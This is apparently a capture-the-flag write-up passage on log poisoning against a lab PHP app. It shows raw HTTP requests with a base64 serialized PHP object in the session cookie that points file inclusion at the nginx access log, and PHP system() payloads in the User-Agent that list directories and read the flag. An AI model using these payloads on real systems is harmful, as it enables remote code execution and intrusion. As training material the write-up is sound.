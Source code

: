 
Read about config to find the log directory `/var/log/nginx/access.log`

![[Pasted image 20221022000226.png]]

So we think about log poisoning

```burp
GET / HTTP/1.1
Host: 161.35.36.157:31939
User-Agent: <?php system('ls'); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ%3d%3d
Upgrade-Insecure-Requests: 1

```


![[Pasted image 20221022000327.png]]

Find our flag

```burp
GET / HTTP/1.1
Host: 161.35.36.157:31939
User-Agent: <?php system('ls /'); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ%3d%3d
Upgrade-Insecure-Requests: 1

```

And get it

```burp
GET / HTTP/1.1
Host: 161.35.36.157:31939
User-Agent: <?php system('cat /flag_GlVC8'); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ%3d%3d
Upgrade-Insecure-Requests: 1
```